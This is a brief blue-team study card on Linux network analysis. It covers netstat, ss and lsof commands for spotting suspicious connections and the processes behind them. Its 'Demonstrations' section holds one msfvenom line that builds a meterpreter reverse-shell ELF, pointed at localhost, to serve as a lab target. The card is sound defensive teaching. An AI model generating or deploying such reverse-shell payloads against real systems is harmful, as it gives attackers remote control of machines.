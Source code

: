 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/endpoint-security/linux-network-analysis/"}
---
```


[[Endpoint Security MOC\|Endpoint Security MOC]]

- Common choice for servers.

Demonstrations:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o notmalware.elf
```
### Investigations
---

```bash
netstat -tnp
```

- `-t` tcp only
- `-n` don't resolve
- `-p` provides PID and binary name.

![Linux Network Analysis.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis.png)
**More modern than netstat**

```bash
ss -tnp
```

Show src/dst address:

```bash
sudo ss src 127.0.0.1
```

- `dport` and `sport` for ports

**Show information about files opened by processes** great for network connection that are associated with files:

```bash
sudo lsof -i -P -n
```

- `-i` list out all established, listening network connection including opened by files

![Linux Network Analysis-1.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis-1.png)
**See more about the interesting process using it's PID**

```bash
sudo lsof -p 3610
```

![Linux Network Analysis-2.png](/img/user/cards/blue-team/endpoint-security/images/Linux%20Network%20Analysis-2.png)
